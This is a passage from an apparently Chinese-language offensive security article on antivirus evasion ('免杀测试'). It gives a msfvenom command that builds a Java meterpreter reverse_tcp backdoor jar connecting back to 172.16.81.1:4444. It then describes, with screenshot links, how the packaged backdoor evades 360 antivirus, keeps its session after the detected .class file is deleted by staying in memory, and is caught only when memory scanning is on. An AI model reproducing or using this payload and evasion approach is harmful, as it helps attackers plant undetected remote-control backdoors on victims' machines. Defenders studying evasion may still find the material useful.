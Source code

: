   

  

三、

 ** _免杀测试_**

  

生成默认的msf jar后门

msfvenom -p java/meterpreter/reverse_tcp LHOST=172.16.81.1 LPORT=4444 x
>~/Desktop/TestJar.jar

  

    
    
    监听：  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903100258.png)不打包，直接运行TestJar.jar会立马报毒：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903100300.png)按照上面的方法对TestJar.jar进行打包，在没有杀软和java环境的机器上安装并运行，可以成功上线：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903100301.png)在安装了360的机器上测试：

  

安装包查杀，未发现风险：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903100302.png)安装后的文件夹，未发现风险：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903100304.png)运行安装后的程序：

  

运行后不会马上出发告警  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903100305.png)尝试执行命令后出发告警了：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903100307.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903100308.png)可以看到，提示的是已经成功删除病毒文件(注意，这里删除的文件是.class文件)，但我们回到我们的meterpreter，发现并没有掉线，且能够正常执行所有命令，后续不会再有告警：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903100310.png)经过主动检测，除了普通的系统优化建议外，无法查杀出后门：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903100312.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903100313.png)通过上面测试，说明即使恶意文件被删除了，但是我们的会话还是在线，且不会再触发告警或被主动检测出风险，说明我们的后门的恶意类已经被加载进了内存。

  

从进程上看，只能看到有个java程序在运行：  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903100315.png)

如果杀软开启针对内存检测的功能则免杀效果会失效，例如开启360的网购模式：

  

提示进程java.exe存在问题了  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903100316.png)

  
  

 ** _后记_**

  

## 优点

